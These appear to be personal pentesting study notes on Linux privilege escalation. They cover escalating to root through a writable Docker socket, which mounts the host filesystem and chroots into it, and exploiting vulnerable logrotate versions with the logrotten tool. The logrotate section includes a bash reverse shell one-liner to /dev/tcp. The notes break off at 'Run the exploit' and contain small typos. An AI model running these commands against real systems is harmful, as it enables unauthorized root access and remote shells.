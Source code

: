 -----
# Docker
------
- Check the group: `id`
```bash
id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

- Check the list of existing images:
```bash 
docker image ls
```

- Docker Socket
- Sometimes, docker socket, which is located in /var/run/docker.sock, can be writable. This socket file can only be written by root or docker group. If we act as a user in neither groups, the Docker socket still has the privileges to be writable -> can be used to escalate privileges
```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash 

root@ubuntu:~# ls -l /mnt
```

-----
# Logrotate
----
- logrotate: prevents hard disk from overflowing logs (by archiving and disposing old logs.)
- Configuration file
```bash
cat /etc/logrotate.conf
```
-  to force a new rotation, we can set the date after the individual log files in the status file `/bar/lib/logrotate/status` or use the -f/--force option
```bash
sudo cat /var/lib/logrotate/status
```
- We can find corresponding conifuration file in /etc/logrotate.d

### Exploitation
- We need:
	1. Write permission on the log files
	2. logrotate must run as a privileged user or root
	3. Vulnerable versions: 3.8.6, 3.11.0, 3.15.0, 3.18.0
- The  [logrotten](https://github.com/whotwagner/logrotten) can be used to exploit 
```bash
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```
- Create a simple reverse shell payload
```bash
echo 'bash -i >& /dev/tcp/$IP/$PORT 0>&i' > payload
```
- Determine which option `logrotate` uses in logrotate.conf:
```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"

in this example,`create` is the selected option
```
- Run the exploit
```bash
# create option
```